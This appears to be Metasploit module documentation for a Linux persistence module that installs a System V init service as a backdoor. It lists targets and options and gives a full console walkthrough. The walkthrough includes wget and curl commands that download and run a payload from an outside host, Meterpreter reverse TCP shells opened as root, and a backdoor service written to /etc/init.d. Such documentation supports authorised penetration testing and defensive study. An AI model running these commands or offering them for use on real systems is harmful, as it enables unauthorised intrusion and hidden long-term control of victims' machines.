 ## Vulnerable Application

This module will create a service via System V on the box, and mark it for auto-restart.
We need enough access to write service files and potentially restart services

Targets:

* CentOS <= 5
* Debian <= 6
* Kali 2.0
* Ubuntu <= 9.04

Note: System V won't restart the service if it dies, only an init change (reboot etc) will restart it.

Verified on [Kali 2.0](https://old.kali.org/kali-images/kali-2.0/kali-linux-2.0-amd64.iso)

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/init_sysvinit`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

### SERVICE

The name of the service to create.  If not chosen, a random one is created.

### PAYLOAD_NAME

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

### EnableService

If the service should be enabled. Defaults to `true`

## Scenarios

### Kali 2.0

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO 1KkF4s8n --no-check-certificate http://111.111.1.111:8181/l; chmod +x 1KkF4s8n; ./1KkF4s8n& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.22     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.22:56459) at 2025-02-16 07:51:56 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/root) > getuid
Server username: root
(Meterpreter 1)(/root) > sysinfo
Computer     : kali2.0
OS           : Kali 2.0 (Linux 4.0.0-kali1-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/root) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_sysvinit 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_sysvinit) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_sysvinit) > exploit
[*] Command to run on remote host: curl -so ./BQVXqXpLiG http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./BQVXqXpLiG;./BQVXqXpLiG&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_sysvinit) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you want to choose elsewhere.
[+] The target appears to be vulnerable. /tmp/ is writable and system is System V based
[*] Writing backdoor to /tmp//MarxU
[*] Utilizing update-rc.d
[*] Writing service: /etc/init.d/JIxbnwyUcQ
[+] Enabling & starting our service
[*] Client 222.222.2.22 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.22 (curl/7.38.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:55807) at 2025-02-16 07:56:21 -0500
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/kali2.0_20250216.5622/kali2.0_20250216.5622.rc
```
